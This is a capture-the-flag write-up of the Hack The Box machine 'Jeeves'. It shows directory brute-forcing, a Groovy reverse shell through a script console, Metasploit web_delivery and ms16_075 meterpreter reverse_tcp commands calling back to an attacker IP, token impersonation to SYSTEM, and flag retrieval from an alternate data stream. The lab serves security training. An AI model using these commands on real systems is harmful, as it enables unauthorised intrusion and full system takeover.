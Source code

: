 ```yaml
---
description: https://app.hackthebox.com/machines/114
---
```


# 🪄 Jeeves

<figure><img src="../../.gitbook/assets/image (577).png" alt=""><figcaption></figcaption></figure>

Staring with the nmap we see a web server on port 80 and 50000,&#x20;

**port 80:**

<figure><img src="../../.gitbook/assets/image (578).png" alt=""><figcaption></figcaption></figure>

just a webpage like this, the links do not go anywhere and if we search anything:

<figure><img src="../../.gitbook/assets/image (579).png" alt=""><figcaption></figcaption></figure>

we get an error page, with SQL server written on it so maybe we got a SQLi somewhere

but we quickly see the error page is a fake one, it's an image:

<figure><img src="../../.gitbook/assets/image (581).png" alt=""><figcaption></figcaption></figure>

So let's go on **port 50000**

open up the graphical interface and fire up the manual exploitation like this:

```
dirbuster&
```

<figure><img src="../../.gitbook/assets/image (582).png" alt=""><figcaption></figcaption></figure>

after waiting for a bit we find a subdomain that redirects to a dashboard ->

<figure><img src="../../.gitbook/assets/image (583).png" alt=""><figcaption></figcaption></figure>

jeeves is well known to be unsecure and to have a script code section

<figure><img src="../../.gitbook/assets/image (584).png" alt=""><figcaption></figcaption></figure>

We instantly see that the script console uses groovy:

<figure><img src="../../.gitbook/assets/image (586).png" alt=""><figcaption></figcaption></figure>

now we go and fetch our payload of choice:

Groovy Reverse Shell - [https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76](https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76)

<figure><img src="../../.gitbook/assets/image (585).png" alt=""><figcaption><p>copy this payload</p></figcaption></figure>

Set up a listener, modify the payload:

<figure><img src="../../.gitbook/assets/image (587).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (600).png" alt=""><figcaption></figcaption></figure>

then, fire up the payload and get your shell:

<figure><img src="../../.gitbook/assets/image (588).png" alt=""><figcaption></figcaption></figure>

Now is the perfect moment to look at our previous documentation:

{% content-ref url="../../documentation/cybersecurity-documentation/privilege-escalation/windows/impersonation-and-potato-attacks.md" %}
[impersonation-and-potato-attacks.md](../../documentation/cybersecurity-documentation/privilege-escalation/windows/impersonation-and-potato-attacks.md)
{% endcontent-ref %}

```
whoami /priv
```

we instantly see our go to path:

<figure><img src="../../.gitbook/assets/image (589).png" alt=""><figcaption></figcaption></figure>

another way of enumerating is ->

```
systeminfo
```

<figure><img src="../../.gitbook/assets/image (591).png" alt=""><figcaption></figcaption></figure>

copy and paste the whole outpu in a txt file, then

<figure><img src="../../.gitbook/assets/image (592).png" alt=""><figcaption></figcaption></figure>

```
./windows-exploit-suggester.py --database 2020-04-17-mssb.xls --systeminfo systeminfo.txt
```

[**`https://github.com/AonCyberLabs/Windows-Exploit-Suggester`**](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)

1. **`./v.py`**: This is the command to execute the Python script `windows-exploit-suggester.py`. The `./` prefix specifies the current directory where the script is located.
2. **`--database 2020-04-17-mssb.xls`**: This option specifies the database file to be used by the script. The database file, named `2020-04-17-mssb.xls`, likely contains information about known Microsoft security bulletins and associated vulnerabilities.
3. **`--systeminfo systeminfo.txt`**: This option specifies the system information file to be used by the script. The file named `systeminfo.txt` likely contains detailed information about the target Windows system, such as operating system version, installed patches, and installed software.

If ran correctly, we'll get hot potato attacks, juicy potato etc

We could also use metasploit:&#x20;

```
use exploit/multi/script/web_delivery
options
show targets
```

<figure><img src="../../.gitbook/assets/image (593).png" alt=""><figcaption></figcaption></figure>

```
set target 2
set payload windows/meterpreter/reverse_tcp
set lhost 10.10.14.94
set srvhost 10.10.14.94
run
```

<figure><img src="../../.gitbook/assets/image (594).png" alt=""><figcaption></figcaption></figure>

then paste this payload in your already existing session:

<figure><img src="../../.gitbook/assets/image (595).png" alt=""><figcaption></figcaption></figure>

and back on your msfconsole you just have to type in the command:

```
sessions 1
```

<figure><img src="../../.gitbook/assets/image (596).png" alt=""><figcaption></figcaption></figure>

then to continue, you could enumerate:

```
 run post/multi/recon/local_exploit_suggester 
```

<figure><img src="../../.gitbook/assets/image (598).png" alt=""><figcaption></figcaption></figure>

put that aside with the background command and put this payload:

```
background
use exploit/windows/local/ms16_075_reflection
set lhost 10.10.14.94
set lport 5555 
#because session1 runs on 4444
set payload windows/x64/meterpreter/reverse_tcp
```

and if you did everything correctly and you run the payload, you'll get a shell, now

now let's follow in cmd:

```
load incognito
list_tokens -u
impersonate_token "NT AUTHORITY\SYSTEM"
```

<figure><img src="../../.gitbook/assets/image (599).png" alt=""><figcaption></figcaption></figure>

```
shell
```

And when  we go on administrator desktop we find no root flag?

Alternate Data Streams - [https://blog.malwarebytes.com/101/2015/07/introduction-to-alternate-data-streams/](https://blog.malwarebytes.com/101/2015/07/introduction-to-alternate-data-streams/)

what we learn in this article is that there are primary data streams and alternate&#x20;

1. **Primary Data Streams**:
   * Primary data streams are the main data associated with a file. When you create or modify a file in Windows, you're working with its primary data stream.
   * Every file in NTFS has at least one primary data stream, which contains the file's main content.
   * Primary data streams are typically what you interact with when you open, read, write, or execute a file. They contain the file's actual data, such as text, executable code, images, etc.
   * Files with only primary data streams are considered "regular" files in Windows.
2. **Alternate Data Streams (ADS)**:
   * Alternate data streams are additional streams of data that can be associated with a file. They are not typically visible through regular file system navigation tools like File Explorer.
   * An alternate data stream is a named stream of data that is attached to a file's primary data stream. Each alternate data stream is associated with a specific name, allowing multiple streams to exist within a single file.
   * Alternate data streams can be used for various purposes, such as storing metadata, file attributes, or additional content related to the main file.
   * While alternate data streams are not commonly used in everyday file operations, they can be leveraged by attackers for hiding malicious content or data within seemingly innocent files.

So on the Desktop we see a hm.txt file

```
dir /R
```

<figure><img src="https://thecyberjedi.com/wp-content/uploads/2020/01/image-103.png" alt=""><figcaption></figcaption></figure>

to view the contents of the file we can type **more < hm.txt:root.txt**

**Very  good writeup:** [**https://thecyberjedi.com/jeeves/**](https://thecyberjedi.com/jeeves/)
